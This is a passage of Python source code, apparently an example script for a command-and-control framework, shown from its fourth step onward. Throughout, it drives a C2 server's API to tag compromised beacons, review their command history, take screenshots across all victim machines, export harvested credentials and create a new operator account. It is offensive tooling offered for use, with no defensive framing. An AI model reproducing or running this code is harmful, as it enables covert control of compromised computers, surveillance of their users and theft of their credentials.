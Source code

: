 ```python

for beacon in beacons['beacons']:
    beacon_id = beacon['id']
    
    # 4. Tag beacon
    requests.post(
        f"{C2_URL}/api/beacon/{beacon_id}/tags",
        json={'tags': 'campaign1,priority_high'},
        headers=headers
    )
    
    # 5. View command history
    history = requests.get(
        f"{C2_URL}/api/beacon/{beacon_id}/history",
        headers=headers
    ).json()
    
    print(f"Beacon {beacon_id} command history:")
    for cmd in history['history']:
        print(f"  [{cmd['timestamp']}] {cmd['command']} -> {cmd['status']}")

# 6. Execute mass operation via plugin
requests.post(
    f"{C2_URL}/api/plugins/mass_screenshot",
    headers=headers
)

# 7. Export credentials
resp = requests.get(
    f"{C2_URL}/api/export/credentials?format=json",
    headers=headers
)
credentials = resp.json()['data']

print(f"\nHarvested {len(credentials)} credentials")

# 8. Create operator user
new_user = requests.post(
    f"{C2_URL}/api/users/create",
    json={
        'username': 'operator2',
        'role': 'operator',
        'permissions': 'read,write'
    },
    headers=headers
).json()

print(f"\nNew operator created: {new_user['username']}")
print(f"API Key: {new_user['api_key']}")
```

---